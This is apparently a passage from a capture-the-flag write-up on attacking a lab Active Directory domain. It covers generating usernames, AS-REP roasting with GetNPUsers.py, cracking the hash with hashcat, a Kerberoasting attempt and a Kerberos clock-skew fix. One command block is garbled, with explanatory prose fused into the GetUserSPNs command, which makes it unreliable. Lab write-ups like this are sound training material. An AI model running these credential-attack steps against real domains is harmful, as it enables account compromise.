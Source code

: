 ```bash
/opt/brute-force/username-anarchy/username-anarchy Hugo Smith > hugo_smith_usernames.txt
```

```bash
GetNPUsers.py egotistical-bank.local/ -dc-ip $IP -no-pass -usersfile hugo_smith_usernames.txt
```

![image.png](image%207.png)

```bash
/opt/brute-force/username-anarchy/username-anarchy Fergus Smith > fergus_smith_usernames.txt
```

```bash
GetNPUsers.py egotistical-bank.local/ -dc-ip $IP -no-pass -usersfile fergus_smith_usernames.txt
```

![image.png](image%208.png)

```bash
hashcat -m 18200 fsmith.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%209.png)

## Lateral Movement

I checked local directories of `fsmith` user but didn’t find anything.

![image.png](image%2010.png)

Under `Users` I have service account good time to check Kerberoasting.

![image.png](image%2011.png)

```bash
GetUserSPNs.py -dc-ip $IP egotistical-bank.local/fsmithKerberos tickets include timestamps to ensure freshness. The Key Distribution Center (KDC), client, and target server all compare these timestamps. The default maximum allowable clock skew in Kerberos is **5 minutes** (300 seconds). If the time difference between your machine and the server exceeds this, Kerberos authentication will fail, resulting in errors like KRB_AP_ERR_SKEW (clock skew too great).
```

![image.png](image%2012.png)

![image.png](image%2013.png)

![image.png](image%2014.png)

In Kerberos related operations we should fix clock skew.

```bash
sudo ntpdate egotistical-bank.local
```

![image.png](image%2015.png)
